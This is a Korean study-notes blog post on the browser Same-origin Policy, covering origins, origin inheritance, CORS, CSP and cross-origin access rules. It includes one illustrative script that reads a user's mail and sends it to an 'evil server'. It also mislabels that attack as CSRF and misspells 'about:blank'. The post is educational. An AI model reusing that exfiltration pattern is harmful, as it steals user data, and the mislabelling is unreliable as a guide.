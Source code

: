```yaml
---
publishedAt: 2021-07-22
thumbnail: /images/018-thumb.png
---
```


# Same-origin Policy (SOP)

:PublishDate{:date="publishedAt"}

> SOP에 대해 공부하며 정리한 글입니다. 자세한 내용은 레퍼런스의 링크들을 읽는 것이 좋습니다.

## SOP란?

문서 또는 스크립트가 다른 origin과 통신하는 것을 제한하는 매커니즘

## SOP의 필요성

인터넷상의 악의적인 사이트들의 공격들을 막는데 도움이 된다.

예를 들어 악의적인 웹사이트에 다음과 같은 스크립트가 있다고 가정하면 접속한 사용자의 모든 메일을 얻을 수도 있는 것이다. (CSRF, XSS, Clickjacking등의 공격)

```html
<!-- 이런 공격을 CSRF라고 합니다 -->
<!-- 실제로 이런 api는 없습니다! -->
<script>
  fetch('https://gmail.com/api/all-mail').then((res) => sendToEvilServer(res))
</script>
```

## origin의 정의

origin은 프로토콜, 호스트, 포트를 합친 것이다. 셋 중에 하나라도 다르면 다른 origin으로 취급된다.

### 예시

- https://news.google.com ↔ https://news.google.com/other.html ⇒ ⭕️ (경로만 다른건 OK)
- https://news.google.com ↔ https://news.google.com:8080 ⇒ ❌ (포트가 다름)
- https://news.google.com ↔ http://news.google.com ⇒ ❌ (프로토콜이 다름)
- https://news.google.com ↔ https://coin.google.com ⇒ ❌ (호스트가 다름)

## origin의 상속

url이 `about:black`, `:javascript`인 문서의 스크립트는 상위 문서의 origin을 상속받는다.

### 예시

노션 페이지의 개발자도구 콘솔에서 `window.open()`을 입력하여 빈 페이지를 새 창으로 띄운다.
새 창에서 url과 origin을 확인해보면 노션의 origin을 그대로 사용하는 것을 확인할 수 있다.

```js
window.location.href // about:blank
window.origin // https://www.notion.so
```

## Internet Explorer에서 예외사항

1. 인트라넷처럼 신뢰할 수 있는 환경에서는 SOP를 적용하지 않는다 (어떻게?)
2. 포트번호는 origin을 체크할 때 포함되지 않는다. 즉, 다른 포트로 요청할 수 있다.

## origin 변경

`document.domain`에 값을 할당하는 방식으로 약간의 제한과 함께 사용할 수 있지만, 보안적인 이유로 사용하지 않는다.

## Cross-origin 접근 처리

_"그러면 SOP는 모든 cross-origin 요청을 막는 것인가? 지금까지 잘 다른 사이트의 리소스를 사용했는데?"_ 라고 말할 수 있다.

사실 그렇지는 않다. 역사적 사정이 있기 때문인지 몇몇 HTML태그들은 SOP의 제한을 받지 않는다.

SOP는 요청을 세 가지 카테고리로 나누고 각각 다르게 처리한다.

1. 쓰기: 일반적으로 허용한다. 일부 HTTP요청은 preflight가 필요하다
   (CORS에서 등장하는 preflight) - 링크, 리다이렉트, 폼 제출 - `<a>` - `<form>` 으로 다른 origin에 데이터를 쓰는 작업
2. 임베딩: 일반적으로 허용한다.
   - `<script src="..."></script>`
   - `<link rel="stylesheet" href="…">`
   - `<img>`, `<video>`, `<audio>`, `<object>`, `<embed>`
   - `@font-face`
   - `<iframe>`
3. 읽기: 일반적으로 허용하지 않는다.
   - 보통 js 코드로 접근하는 행위들이 해당된다.
     - js로 iframe내의 document에 접근
     - js로 canvas내에 다른 origin의 이미지를 불러오는 작업
     - js로 다른 리소스를 fetch하는 작업

## cross-origin 요청을 허용 또는 차단하는 방법

필요에 따라서 SOP의 제한을 허용해주거나 SOP에 적용되지 않는 제한을 추가하면 좋을 때가 있다.

이런 필요에 의해 등장한 개념이 대표적으로 CORS와 CSP이다.

- 허용
  - Cross-Origin Resource Sharing(CORS)
  - JSONP (CORS가 등장하기 전에 사용하던 우회방법)
- 차단
  - CSP(Content Security Policy)
  - CSRF token

## Cross-origin script API 접근

iframe, popup처럼 서로 다른 문서가 서로 직접 참조할 수 있는 경우, 두 문서의 origin이 다르면 다른 문서의 window, location객체에 사용할 수 있는 API가 제한된다.

- cross-origin 상태의 문서간 통신을 위해서는 `postMessage()`를 사용하는 것이 좋다.

## Cross-origin data storage 접근

다른 origin의 저장된 데이터(WebStorage, IndexdeDB)는 읽을 수 없다.

## Reference

- [MDN - Same-origin Policy](https://developer.mozilla.org/en-US/docs/Web/Security/Same-origin_policy)
- [web.dev - same origin policy](https://web.dev/same-origin-policy/)

